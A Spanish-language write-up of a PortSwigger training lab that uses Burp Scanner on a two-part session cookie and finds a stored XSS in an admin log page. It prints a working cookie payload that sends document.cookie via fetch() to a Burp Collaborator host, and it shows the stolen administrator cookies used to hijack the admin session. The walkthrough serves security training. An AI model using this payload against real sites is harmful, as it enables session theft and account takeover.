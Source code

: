 ```yaml
---
title: Essential Skills Lab 2
date: 2024-12-08 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - Essential Skills
tags:
  - Essential Skills
  - Scanning non-standard data structures
image:
  path: /assets/img/Essential-Skills-Lab-2/Portswigger.png
---
```


## Skills

- Scanning non-standard data structures

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `vulnerabilidad` que es difícil de encontrar `manualmente`. Se encuentra en una `estructura de datos no estándar`. Para `resolver` el laboratorio, debemos usar la función `Scan selected insertion point` de `Burp Scanner` para identificar la `vulnerabilidad`, luego `explotarla` manualmente y eliminar al `usuario carlos`. Podemos `iniciar sesión` en nuestra propia cuenta utilizando las credenciales `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Essential-Skills-Lab-2/image_1.png)

Pulsamos en `My account` y nos `logueamos` con las credenciales `wiener:peter`

![](/assets/img/Essential-Skills-Lab-2/image_2.png)

`Recargamos` con `F5` y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/Essential-Skills-Lab-2/image_3.png)

El `formato` de la `cookie` es bastante `extraño`

```
session=wiener:zqEeGuTsB0x4zgTkv5Pl3BDpMbM4KYDL
```

Si la `estructura` de `datos` fuera `estándar`, es decir que tuviera `un solo campo` podríamos `marcar todo el dato` de forma `completa` de esta manera

```
session=zqEeGuTsB0x4zgTkv5Pl3BDpMbM4KYDL
```

![](/assets/img/Essential-Skills-Lab-2/image_4.png)

Sin embargo, en este caso, parece que se trata de dos `estructuras de datos` diferentes. Por ello, no tendría sentido manejarlo de esta manera, ya que `Burp Suite` enviaría un único `payload` para toda la `estructura`. En estos casos, o cuando trabajamos con un `JSON`, lo mejor es `enviar` la `petición` al `Intruder`, establecer `puntos de inserción` (insertion points) en cada `dato` y escanear los valores de manera `independiente` y no como un `único bloque`. Cuando se abra la nueva `ventana` en `Burp Intruder`, debemos pulsar en `OK` y comenzará el `escaneo`

![](/assets/img/Essential-Skills-Lab-2/image_5.png)

Si nos vamos a `Dashboard` veremos que nos ha `detectado` un `XSS`, aunque ponga `audit finished` necesitaremos `esperar` un poco `más` de `tiempo` para que nos `muestre` lo que ha `encontrado`

![](/assets/img/Essential-Skills-Lab-2/image_6.png)

Este es el `payload` que vamos a usar ahora para `obtener` la `cookie`, debemos usar `Burpsuite Collaborator` para que nos mande ahí las `peticiones`

```
Cookie: session='"><svg/onload=fetch(`//ird4jrrnt2mjjytc1bdncj4v8mee24qt.oastify.com/${encodeURIComponent(document.cookie)}`)>:gzUjX1PEjSeUz0hi59YqWXwVpEiCHt9x
```

Para `encodear` el `payload` de la misma forma en la que está, debemos usar el `inspector` de `Burpsuite`, el cual se `encargará` de `encodearlo` de la misma forma en la que está el anterior

![](/assets/img/Essential-Skills-Lab-2/image_7.png)

Una vez `enviada` la `petición`, nos llega esto a `Burpsuite Collaborator`

![](/assets/img/Essential-Skills-Lab-2/image_8.png)

El `inspector` de `Burpsuite` lo `decodea` por nosotros y vemos que estas son las `cookies` del usuario `administrator`

![](/assets/img/Essential-Skills-Lab-2/image_9.png)

```
/session=administrator:iwnc8XhMT4HzCj2ScdD2qDuwKRG7AJhD; secret=jPNSk5gKjLbTQaTMWbYl81pU2rTtXufm; session=administrator:iwnc8XhMT4HzCj2ScdD2qDuwKRG7AJhD
```

Nos vamos al navegador y pulsamos `Ctrl + Shift + i` y vemos que tenemos varios `campos` de `cookies`

![](/assets/img/Essential-Skills-Lab-2/image_10.png)

`Sustituimos` los `campos` de `cookies` y pulsamos `F5` para `refrescar` la `web`

![](/assets/img/Essential-Skills-Lab-2/image_11.png)

Ya tenemos `acceso` al `panel` de `administrador` y podemos `eliminar` al usuario `carlos`

![](/assets/img/Essential-Skills-Lab-2/image_12.png)

Vemos que hay una parte llamada `View Logs`, aquí es donde se ha producido el `XSS` debido a que el usuario `administrator` se encontraba `revisándolo`

![](/assets/img/Essential-Skills-Lab-2/image_13.png)
